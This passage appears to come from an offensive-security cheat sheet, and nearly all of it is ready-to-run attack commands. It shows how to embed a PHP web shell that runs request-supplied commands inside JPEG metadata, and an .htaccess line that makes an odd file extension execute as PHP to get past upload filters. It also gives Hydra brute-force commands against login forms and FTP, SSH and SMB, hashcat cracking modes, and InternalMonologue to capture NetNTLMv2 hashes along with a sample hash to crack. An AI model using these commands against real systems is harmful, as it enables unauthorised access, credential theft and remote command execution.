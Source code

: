 ### Injecting PHP into JPEG <a id="injecting-php-into-jpeg"></a>

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php <a id="uploading-htaccess-to-interpret-blah-as-php"></a>

```text
AddType application/x-httpd-php .blah
```

### Cracking Passwords <a id="cracking-passwords"></a>

#### Cracking Web Forms with Hydra <a id="cracking-web-forms-with-hydra"></a>

```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### Cracking Common Protocols with Hydra <a id="cracking-common-protocols-with-hydra"></a>

```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### HashCat Cracking <a id="hashcat-cracking"></a>

```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

​# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout​

# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000​

# crack with hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
